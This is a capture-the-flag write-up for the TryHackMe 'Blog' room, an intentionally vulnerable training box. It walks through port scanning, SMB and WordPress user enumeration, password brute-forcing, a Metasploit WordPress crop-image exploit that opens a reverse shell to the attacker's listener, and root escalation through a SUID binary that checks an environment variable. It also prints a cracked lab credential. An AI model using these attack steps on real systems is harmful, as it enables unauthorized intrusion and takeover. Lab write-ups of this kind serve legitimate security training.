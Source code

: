 # Tryhackme Blog
## _Billy Joel made a Wordpress blog!_

As usual we start by enumerating the machine using a port scanner, one of my personal favorites is the Mayor's multi threader port scanner [Threader3000](https://github.com/dievus/threader3000).

Anyways to the port scanning:
```
------------------------------------------------------------
        Threader 3000 - Multi-threaded Port Scanner          
                       Version 1.0.7                    
                   A project by The Mayor               
------------------------------------------------------------
Enter your target IP address or URL here: 10.10.29.101                      
------------------------------------------------------------
Scanning target 10.10.29.101
Time started: 2022-06-14 13:15:27.606196
------------------------------------------------------------
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
Port scan completed in 0:00:28.859030
------------------------------------------------------------
Threader3000 recommends the following Nmap scan:
************************************************************
nmap -p22,139,80,445 -sV -sC -T4 -Pn -oA 10.10.29.101 10.10.29.101
************************************************************
Would you like to run Nmap or quit to terminal?
------------------------------------------------------------
1 = Run suggested Nmap scan
2 = Run another Threader3000 scan
3 = Exit to terminal
------------------------------------------------------------
Option Selection: 1
nmap -p22,139,80,445 -sV -sC -T4 -Pn -oA 10.10.29.101 10.10.29.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-14 13:18 EDT
Nmap scan report for 10.10.29.101
Host is up (0.074s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-06-14T17:18:50+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-06-14T17:18:50
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.73 seconds
------------------------------------------------------------
Combined scan completed in 0:03:26.200751
Press enter to quit...
```
from the output above we can see an interesting service running on the host, Samba!

Let's further enumerate this service using [enum4linux](https://github.com/CiscoCXSecurity/enum4linux):
```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
.
.
.
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''            
                                                                                       
S-1-22-1-1000 Unix User\bjoel (Local User)                                             
S-1-22-1-1001 Unix User\smb (Local User)

```
enum4linux found us some potentially useful information, the username: **bjoel** and the share: **BillySMB**.

we further explore this Samba service:
```
smbclient \\\\10.10.29.101/BillySMB
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9790376 blocks available
smb: \> prompt
smb: \> mget *
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (88.6 KiloBytes/sec) (average 88.6 KiloBytes/sec)
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (1841.1 KiloBytes/sec) (average 1211.3 KiloBytes/sec)
getting file \check-this.png of size 3082 as check-this.png (10.2 KiloBytes/sec) (average 942.6 KiloBytes/sec)
```
the first thing that comes to my mind when I see a jpg image is using [steghide](https://www.kali.org/tools/steghide/)! (also **spoiler alert**: this image was used in another box called Wonderland)
```
steghide extract -sf Alice-White-Rabbit.jpg                                  
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".

cat rabbit_hole.txt  
You've found yourself in a rabbit hole, friend.
```
The other files are a QR code and a png image that leads to the same conclusion: This Samba service is a rabbit hole :(

We shift our efforts to the web server hosted on this machine on port 80, it's a simple Wordpress website.
Also from our port scan above we can see there's a **robots.txt** file which mentions a Disallowed entry: /_wp-admin_

We navigate to /_wp-admin_ and try the user's we found using enum4linux **bjoel**
![image](https://user-images.githubusercontent.com/87611022/173656287-159cd0bd-c200-463a-98f7-af8d4ffe805b.png)
we can see that's it's a valid username, also using [wpscan](https://wpscan.com/wordpress-security-scanner) we found some couple other usernames:
```
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)
```
Bruteforcing the password for these usernames got us the password for **kwheel**
```
[!] Valid Combinations Found:
 | Username: kwheel, Password: 
 ```
From the wpscan we did earlier we can see that this wordpress website runs on the version 5.0 which is vulnerable to path traversal [CVE 2019-8943](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJuqnuyq34AhUQi_0HHQUYDuIQFnoECAYQAQ&url=https%3A%2F%2Fcve.mitre.org%2Fcgi-bin%2Fcvename.cgi%3Fname%3DCVE-2019-8943&usg=AOvVaw31RQDmn7zjnh45-ckAj5Yl).

I used metasploit to exploit this vulnerability:
```
   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload                                                                    
```
We set the required options and send the exploit and boom! we got a shell:
```
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.8.252.202:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39860 bytes) to 10.10.29.101
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.8.252.202:4444 -> 10.10.29.101:54758) at 2022-06-14 14:38:39 -0400

meterpreter > 
```
the next step is to enumerate for possible privillege escalation exploits in the machine.
I used [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
we found an unknown binary with the SUID bit set:
```
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary)
```
The binary outputs the following when we run it:
```
./checker
Not an Admin

```
we further analyze this binary using a reverse engineering tool like [Ghidra](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjdrqfpgbL4AhVP_bsIHQtgCVwQFnoECAUQAQ&url=https%3A%2F%2Fghidra-sre.org%2F&usg=AOvVaw0L6uCxCJLDPCI2KQM3Ks-w).

![image](https://user-images.githubusercontent.com/87611022/174074716-8effb210-c1f6-4089-b109-52d6c2e9eb5a.png)

from the image above we can notice that it checks for an environment variable called "admin".
we can simply set the variable to any value and it will give us root privileges.
```
export admin=shawarma
./checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
 ```
 next I used this command to find the real user.txt:
 ```
root@blog:/# find -iname user.txt
find -iname user.txt
./home/bjoel/user.txt
./media/usb/user.txt
```
and of course you know where to find the root.txt :D

Anyways that's all for this room it was really fun :))
Thanks for reading through this write-up 
